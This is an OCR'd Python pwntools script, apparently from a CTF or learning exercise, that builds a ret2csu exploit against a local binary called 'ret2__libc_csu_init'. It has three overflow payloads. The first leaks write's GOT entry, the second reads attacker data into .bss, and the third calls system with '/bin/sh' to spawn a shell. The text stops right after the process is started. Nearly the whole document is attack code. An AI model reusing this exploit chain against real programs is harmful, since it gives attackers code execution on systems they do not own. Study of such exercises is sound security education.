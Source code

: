 ``` python
from pwn import *

elf = ELF('./ret2__libc_csu_init')
libc = ELF('./libc.so.6')

got_write = elf.got['write']
got_read = elf.got['read']
start = elf.symbols['_start']
bss_addr = elf.bss()

libc_write = libc.symbols['write']
libc_system = libc.symbols['system']

csu_init_front = 0x0000000000400600
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x000000000040061A

#write(rdi=1, rsi=write.got, rdx=4)
#rbx=0
#rbp=1
#r12=write.got
#r13=rdx=8
#r14=rsi=write.got
#r15=edi=1
payload1 = 'A' * 136
payload1 += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(0) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1)
payload1 += p64(csu_init_front)
payload1 += 'A' * 56
payload1 += p64(start)


#read(rdi=0, rsi=bss_addr, rdx=16)
#rbx=0
#rbp=1
#r12=read.got
#r13=rdx=16
#r14=rsi=bss_addr
#r15=edi=0
payload2 = 'A' * 136
payload2 += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0)
payload2 += p64(csu_init_front)
payload2 += 'A' * 56
payload2 += p64(start)



#system(rdi=bss_addr+8="/bin/sh")
#rbx=0
#rbp=1
#r12=bss_addr
#r13=rdx=0
#r14=rsi=0
#r15=edi=bss_addr+8
payload3 = 'A' * 136
payload3 += p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(0) + p64(1) + p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr+8)
payload3 += p64(csu_init_front)
payload3 += 'A' * 56
payload3 += p64(start)

io = process('./ret2__libc_csu_init')

```